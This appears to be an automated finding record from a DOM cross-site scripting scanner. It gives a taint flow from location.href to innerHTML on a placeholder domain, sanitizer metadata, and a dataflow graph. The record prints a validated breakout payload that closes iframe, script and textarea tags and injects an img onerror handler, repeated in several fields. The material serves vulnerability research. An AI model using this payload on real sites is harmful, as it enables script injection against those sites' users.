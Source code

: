 // Finding: 6aec2c48-e41d-4911-be13-2fd0eb466f5d
// Finding.url: https://www.example204.com/search.html?interestArea=P</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7683ff54fafd418688cf65d7af455e6e')><!--/*&sort=recency
// Finding.parentloc: https://www.example204.com/search.html?interestArea=P</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7683ff54fafd418688cf65d7af455e6e')><!--/*&sort=recency
// Finding.domain: www.example204.com
// Finding.base_domain: example204.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 3
// Sanitizer.name: <synthetic>
// Sanitizer.location: example18.com
// Finding.begin: 133
// Finding.end: 196
// Finding.original_uuid: cbee0cc1-6e31-48a2-99da-7ad70960cf09
// Finding.TwentyFiveMillionFlowsId: -1899331355
// Finding.script: https://www.example204.com/etc/clientlibs/dot-org/assets.min.js
// Finding.line: 819
// Exploit.uuid: 7683ff54-fafd-4186-88cf-65d7af455e6e
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: P
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: P</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: P</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 47
// Exploit.end_taint_url: 52
// Exploit.replace_begin_url: 47
// Exploit.replace_end_url: 52
// Exploit.replace_begin_param: 133
// Exploit.replace_end_param: 138
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: true
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 2085754173
// DepGraph.sanitizer_hash: -931888617
// Merged split and join statements 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="substr"];
n2 [shape=box, label="Var: x"];
n3 [shape=box, label="Lit: 34"];
n4 [shape=ellipse, label="."];
n5 [shape=box, label="Lit: &"];
n6 [shape=ellipse, label="preg_replace"];
n7 [shape=box, label="RegExp: /&+/"];
n8 [shape=box, label="Lit: &"];
n9 [shape=box, label="Var: x"];
n10 [shape=ellipse, label="preg_replace"];
n11 [shape=box, label="RegExp: /^\?*&*|&+$/"];
n12 [shape=box, label="Lit: "];
n13 [shape=box, label="Var: x"];
n14 [shape=ellipse, label="split"];
n15 [shape=box, label="Lit: &"];
n16 [shape=box, label="Var: x"];
n17 [shape=ellipse, label="preg_replace"];
n18 [shape=box, label="RegExp: /[=]/"];
n19 [shape=box, label="Lit: ="];
n20 [shape=box, label="Var: x"];
n21 [shape=box, label="Var: x"];
n22 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n1 -> n3;
n4 -> n1;
n4 -> n5;
n9 -> n4;
n6 -> n7;
n6 -> n8;
n6 -> n9;
n13 -> n6;
n10 -> n11;
n10 -> n12;
n10 -> n13;
n16 -> n10;
n14 -> n15;
n14 -> n16;
n20 -> n14;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n21 -> n17;
n22 -> n21;
}
